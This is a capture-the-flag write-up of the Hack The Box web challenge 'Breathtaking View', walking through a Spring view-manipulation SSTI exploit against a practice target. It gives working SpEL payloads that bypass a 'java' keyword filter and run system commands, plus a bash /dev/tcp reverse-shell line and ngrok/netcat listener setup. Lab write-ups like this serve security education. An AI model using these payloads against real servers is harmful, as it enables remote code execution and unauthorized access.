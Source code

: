 ```yaml
---
title: Breathtaking View - Hack The Box
date: 2024-10-27
---
```


<script setup>
    import ChallengeCard from "../../../../../.vitepress/components/ChallengeCard.vue";
</script>

# Breathtaking View

![Breathtaking View - thumbnail](/ctf/hack-the-box/challenges/web/breathtaking-view/thumbnail.jpg)

## Box description

Check out my new website showcasing a breathtaking view—let's hope no one can 'manipulate' it!

## Challenge Description

This challenge is a web application written in **Spring Boot**. It provides a simple interface with registration and
login functionality. Once logged in, we are presented with the following page:

![View 1](/ctf/hack-the-box/challenges/web/breathtaking-view/view1.png)

Clicking the "Change Language" button redirects to another page:

![View 2](/ctf/hack-the-box/challenges/web/breathtaking-view/view2.png)

Looking at the URL, we can see that the language is passed as a parameter:

```
http://localhost:1337/?lang=fr
```

## Code Review

### IndexController.java

```java
@Controller
public class IndexController {
    @GetMapping("/")
    public String index(@RequestParam(defaultValue = "en") String lang, HttpSession session, RedirectAttributes redirectAttributes) {
        if (session.getAttribute("user") == null) {
            return "redirect:/login";
        }

        if (lang.toLowerCase().contains("java")) {
            redirectAttributes.addFlashAttribute("errorMessage", "But.... For what?");
            return "redirect:/";
        }

        return lang + "/index";
    }
}
```

Upon reviewing the `IndexController.java` code:

- The `index` method handles the rendering of the main page and takes in a `lang` parameter, which defaults to `"en"`.
- If the `user` session attribute is missing, the method redirects to the login page.
- If the `lang` parameter contains the string `"java"`, the method sets an error message and redirects to the index page.
- Otherwise, it returns a path based on `lang` by appending `"/index"` to it.

The concatenation of `lang` with `"/index"` could allow us to inject code into the `lang` parameter, leading to a **Server-Side Template Injection (SSTI)**
vulnerability.

## Exploitation - Server-Side Template Injection (SSTI)

### Proof of Concept (PoC)

To confirm SSTI vulnerability, we inject a simple expression into the `lang` parameter:

```plaintext
__${7*7}__::.x
```

Using this payload (sourced
from [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)),
we receive the following response:

```plaintext
Error resolving template [49], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The payload `7*7` evaluated to `49`, confirming that SSTI is possible. We can now proceed to exploit this vulnerability.

### Exploit Strategy

Our goal is to inject Java code into the `lang` parameter to execute system commands on the server. However, since any
input containing the string `"java"` triggers a redirection, we need a workaround.

#### Using the T() Class

In Java, the `java.lang` package is imported by default. By leveraging the `T` operator from **Spring Expression
Language (SpEL)**, we can call methods like `Runtime.getRuntime()` without specifying `java.lang`.

### Payload

We start with a payload to list files in the current directory:

```java
__${T(Runtime).getRuntime().exec("ls")}__::.x
```

#### Response

```
Error resolving template [java.lang.UNIXProcess@590062a7], template might not exist or might not be accessible by any of the configured Template Resolvers
```

The response shows `java.lang.UNIXProcess@590062a7`, indicating that the `exec()` command executed successfully.
However, we don’t see the output of the `ls` command directly because `exec()` returns a `Process` object, not a string.

To capture command output, we need to redirect it to a more accessible place, such as a reverse shell.

### Establishing a Reverse Shell

To create a reverse shell, we start by setting up a listener on our machine and then use the following payload to create
a shell script on the server:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "echo 'bash -i >& /dev/tcp/ip/port 0>&1' > shell.sh"})}__::.x
```

Looking at the docker container file, we can see the `shell.sh` file created

### Executing the Shell Script

To run the shell script and establish the reverse shell, we use the following payload:

```java
__${T(Runtime).getRuntime().exec(new String[]{"bash", "-c", "bash shell.sh"})}__::.x
```

Upon execution, we successfully gain a reverse shell and can interact with the server.

With the reverse shell active, we proceed to list files in the root directory:

```bash
root@9348cae2ee45 /# ls
app
bin
boot
dev
etc
flag_lyh3sdrgCjCI_.txt
home
...
```

Reading the flag file:

```bash
root@9348cae2ee45 /# cat flag_lyh3sdrgCjCI_.txt
HTB{f4k3_fl4g_f0r_t35t1ng}
```

We now have the fake flag!

::: danger **Note for HTB Server**
Direct netcat connections to HTB IPs may not work. Use **ngrok** or similar tunneling tools to create a TCP tunnel to
your machine and connect with netcat.

```bash
ngrok tcp 12345
nc -lnv 12345
```

:::

<ChallengeCard
    challengeType="web"
    challengeName="Breathtaking View"
    htbCardLink="https://www.hackthebox.com/achievement/challenge/585215/767"
/>

## References

- [HackTricks - SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#spring-view-manipulation-java)
